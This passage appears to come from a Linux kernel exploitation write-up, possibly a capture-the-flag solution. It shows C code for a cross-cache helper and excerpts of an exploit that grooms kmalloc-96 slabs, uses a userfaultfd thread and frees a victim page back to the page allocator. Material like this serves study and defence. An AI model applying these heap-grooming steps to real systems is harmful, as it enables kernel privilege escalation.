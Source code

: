 ```c 
        return NULL;
    }
    cc->objs_per_slab = objs_per_slab;
    cc->cpu_partial = cpu_partial;
    cc->free = free_fptr;
    cc->allocate = allocate_fptr;
    cc->phase = CC_RESERVE_PARTIAL_LIST;

    uint32_t n_overflow = objs_per_slab * (cpu_partial + 1) * CC_OVERFLOW_FACTOR;
    uint32_t n_previctim = objs_per_slab - 1;
    uint32_t n_postvictim = objs_per_slab + 1;

    cc->overflow_objs = malloc(sizeof(int64_t) * n_overflow);
    cc->pre_victim_objs = malloc(sizeof(int64_t) * n_previctim);
    cc->post_victim_objs = malloc(sizeof(int64_t) * n_postvictim);

    return cc;
}
```

And then qua integration in the exploit:

```c
int main()
{
    kmalloc96_cc = cc_init(OBJS_PER_SLAB, CPU_PARTIAL, cc_alloc_kmalloc96, cc_free_kmalloc96);
    //[...]
    /* allocate a bunch of kmalloc96 objects, so the next one we allocate will fall into our "victim page" */
    cc_next(kmalloc96_cc);
    cc_next(kmalloc96_cc);
    note_add(mem, 96);

    /* also fill up the victim page */
    cc_next(kmalloc96_cc);
    //[...]
}

static void *userfault_thread(void *arg)
{
    cc_next(kmalloc96_cc); /* free surrounding objects*/
    cc_next(kmalloc96_cc); /* fill up partial lists */

    /* sleep for rcu*/
    usleep(200000);
    
    /* free backing buffer in kmalloc-96 and release its slab back to the page allocator. */
    note_del(0);
    //[...]
}
```
